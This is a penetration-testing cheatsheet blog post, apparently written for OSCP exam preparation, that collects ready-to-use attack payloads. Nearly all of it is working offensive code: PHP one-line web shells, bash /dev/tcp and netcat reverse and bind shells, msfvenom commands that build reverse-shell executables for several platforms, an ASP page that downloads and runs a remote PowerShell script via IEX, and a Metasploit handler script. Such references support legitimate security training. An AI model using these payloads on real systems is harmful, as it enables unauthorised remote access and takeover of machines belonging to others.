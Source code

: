```yaml
---
title: Payloads
author: linatl
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell (linux-only)
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
> bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
> nc -e /bin/bash 192.168.1.1 443
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```


###### .exe reverse shell
```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### PHP reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
